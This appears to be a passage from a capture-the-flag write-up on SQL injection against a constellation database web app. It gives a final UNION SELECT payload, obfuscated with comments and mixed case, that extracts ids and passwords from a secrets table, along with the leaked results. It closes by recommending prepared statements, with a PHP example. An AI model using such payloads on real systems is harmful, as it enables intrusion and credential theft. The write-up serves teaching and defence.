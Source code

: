 After submiting the ``final payload`` and trying a few offsets for the LIMITs (all 3) we recieve following results: 

```
OFFSETS:
0 = 0, 4, nopeItsNotLupus
1 = 1, 6, EeLe9EiHNs5WDd5hnryw
2 = EMPTY
``` 

And since after the 3rd tried offset there is no data anymore we can assume that we found all the content.


``The final Payload:``

```
'/**/UnIon/**/SeLect/**/(SeLect/**/id/**/FrOm/**/constellation_secrets/**/LIMIT/**/1,1),(SeLect/**/constellation_id/**/FrOm/**/constellation_secrets/**/LIMIT/**/1,1),(SeLect/**/secretpaswd/**/FrOm/**/constellation_secrets/**/LIMIT/**/1,1),4/**/FrOm/**/dual/**/WhErE/**/'a'='a
```

Solution
--------
The solution could be ``prepared statemnts``
These statements don't have any parameters in it, just placeholders which the database checks/validates before processing them.

For the Constellation DB is could look something like:

```
<?php
$stmt = $dbConnection->prepare('SELECT * FROM constellation_list WHERE abbreviation = ? LIMIT 1');

$stmt->bind_param('s', $abbr);

$stmt->execute();

//....
//process the results
//....

?>
```


